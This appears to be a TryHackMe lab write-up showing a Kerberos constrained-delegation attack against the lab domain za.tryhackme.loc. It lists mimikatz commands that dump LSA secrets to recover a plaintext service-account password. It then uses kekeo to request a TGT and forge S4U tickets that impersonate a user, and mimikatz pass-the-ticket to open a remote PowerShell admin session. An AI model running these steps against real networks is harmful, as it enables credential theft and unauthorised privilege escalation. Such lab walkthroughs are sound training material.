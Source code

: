 One account, svcIIS, has the TRUSTED_TO_AUTH_FOR_DELEGATION flag and the msds-allowedtodelegateto attribute 
for http/THMSERVER1.za.tryhackme.loc and WSMAN/THMSERVER1.za.tryhackme.loc. This means the svcIIS account 
can delegate the HTTP and WSMAN services on the target THMSERVER1. 

PowerShell remoting uses the HTTP and WSMAN services allowing us to start remote sessions with Delegation 
to gain Tier 1 Admin access to the target. 

As an Administrator on jump server, run mimikatz to dump LSASecrets showing plain text passwords

```
token::elevate
lsadump::secrets
```

The plain text password for svcIIS is dumped, allowing us to perform a Kerberos delegation attack.

Create a TGT for the compromised service account with kekeo.exe

`tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:password`

Next, we forge TGS requests for the account we want to impersonate for both services (HTTP and WSMAN) with kekeo.exe

```
# WSMAN
tgs::s4u /tgt:<TGT-FROM-KEKEO> /user:<USER-TO-IMPERSONATE> /service:WSMAN/THMSERVER1.za.tryhackme.loc
# HTTP
tgs::s4u /tgt:<TGT-FROM-KEKEO> /user:<USER-TO-IMPERSONATE> /service:http/THMSERVER1.za.tryhackme.loc
```

Import the TGS tickets into mimikatz

```
# Check privilege
privilege::debug

# import WSMAN TGS
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_WSMAN~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

# import HTTP TGS
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
``` 

Exit mimikatz and verify the tickets are imported with `klist`

Create a PSSession on THMSERVER1 to gain access as a Tier 1 Admin

```
New-PSSession -ComputerName thmserver1.za.tryhackme.loc

Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```
